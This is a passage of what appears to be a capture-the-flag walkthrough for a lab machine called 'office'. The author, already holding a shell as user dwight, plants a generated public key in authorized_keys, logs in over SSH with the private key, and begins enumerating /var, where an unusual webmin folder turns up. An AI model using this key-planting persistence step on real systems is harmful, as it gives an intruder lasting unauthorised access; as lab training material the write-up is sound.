 ```
dwight@office:~/.ssh$ ls -al
ls -al
total 16
drwxrwxr-x 2 dwight dwight 4096 Nov 30 22:33 .
drwxr-xr-x 4 dwight dwight 4096 May  8  2020 ..
-rw------- 1 dwight dwight 1679 Nov 30 22:33 id_rsa
-rw-r--r-- 1 dwight dwight  395 Nov 30 22:33 id_rsa.pub
dwight@office:~/.ssh$ cat id_rsa.pub
cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPgHai3fDZqwsaQmTnVZcYGEkyQ3HqauRoDw83519IcId1kQxb+dtzC4ADYtXSLIzyc8H53dwW9aTIzX7j/lddQDfuqD4j7iJi8qMNMGtNQyrRdLRlxJPEo3M3Or0+qbaPMXfNVXfNnCFIeInzJhzLPKpZS5eYh7IJryhjEWwMHhm+mE+0xCd+z7FswoyKRSRIeR8hdeKhRuJ+UJTTD4GHI/6fOExMftoQwdfMUUon303/V6zwaky4s0d6R5OTesq/bcn2VE1CiDG/r29wSc5y44tHjyvfh80DkyaE8Yvr6j4PRxgAvRn7CP3CIBA67cHkXaHMV7i1rEJ8OEX/AEot dwight@office
dwight@office:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPgHai3fDZqwsaQmTnVZcYGEkyQ3HqauRoDw83519IcId1kQxb+dtzC4ADYtXSLIzyc8H53dwW9aTIzX7j/lddQDfuqD4j7iJi8qMNMGtNQyrRdLRlxJPEo3M3Or0+qbaPMXfNVXfNnCFIeInzJhzLPKpZS5eYh7IJryhjEWwMHhm+mE+0xCd+z7FswoyKRSRIeR8hdeKhRuJ+UJTTD4GHI/6fOExMftoQwdfMUUon303/V6zwaky4s0d6R5OTesq/bcn2VE1CiDG/r29wSc5y44tHjyvfh80DkyaE8Yvr6j4PRxgAvRn7CP3CIBA67cHkXaHMV7i1rEJ8OEX/AEot dwight@office" > authorized_keys
<HMV7i1rEJ8OEX/AEot dwight@office" > authorized_keys
```

Grab the `private key` and you got ssh access as dwight

Don't forget to fix the ssh key permissions

```
└──╼ $chmod 600 id_rsa

└──╼ $ssh dwight@172.31.3.1 -i id_rsa
...
dwight@office:~$ id
uid=1001(dwight) gid=1001(dwight) groups=1001(dwight)

```

I tried basic stuff like sudo and suid but no clue

I decided to o back to web folder to enumerate files...I already saw a `Webmin.out` file
when I took access as `www-data` 

and now I got a `/var/webmin` folder...unusual

```
dwight@office:/var$ ls -al
total 60
drwxr-xr-x 15 root root   4096 May  8  2020 .
drwxr-xr-x 24 root root   4096 May  8  2020 ..
drwxr-xr-x  2 root root   4096 May  9  2020 backups
drwxr-xr-x 12 root root   4096 May  8  2020 cache
drwxrwxrwt  2 root root   4096 Feb  3  2020 crash
drwxr-xr-x 40 root root   4096 May  8  2020 lib
drwxrwsr-x  2 root staff  4096 Apr 24  2018 local
lrwxrwxrwx  1 root root      9 Feb  3  2020 lock -> /run/lock
drwxrwxr-x 11 root syslog 4096 May  8  2020 log
drwxrwsr-x  2 root mail   4096 Feb  3  2020 mail
drwxr-xr-x  2 root root   4096 Feb  3  2020 opt
lrwxrwxrwx  1 root root      4 Feb  3  2020 run -> /run
drwxr-xr-x  3 root root   4096 May  8  2020 snap
drwxr-xr-x  4 root root   4096 Feb  3  2020 spool
drwxrwxrwt  5 root root   4096 Nov 30 22:39 tmp
drwx------  3 root bin    4096 Nov 30 19:03 webmin
drwxr-xr-x  3 root root   4096 May  8  2020 www
```
